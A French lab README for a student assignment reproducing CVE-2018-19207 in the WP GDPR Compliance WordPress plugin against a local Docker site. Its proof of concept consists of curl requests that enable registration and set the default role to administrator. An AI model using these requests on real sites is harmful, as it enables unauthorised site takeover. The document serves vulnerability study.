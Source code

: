 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via `http://localhost:8000/`
2. Créer le compte administrateur en suivant les instructions de Wordpress (l'adresses mail n'a pas besoin d'être correcte ni vérifiée)
3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## PoC (WIP)

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Si on demande à s'enregistrer sur le site via la page `http://localhost:8000/wp-login.php?action=register`, on peut voir le message d'erreur suivant "User registration is currently not allowed."

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`,
on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite desormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Créer un compte via `http://localhost:8000/wp-login.php?action=register`, puis se connecter via `http://localhost:8000/wp-login.php` après vérification de l'adresse email.

Pour aller plus vite, vous pouvez vous connecter grâce au compte admin initial. Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator".

Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
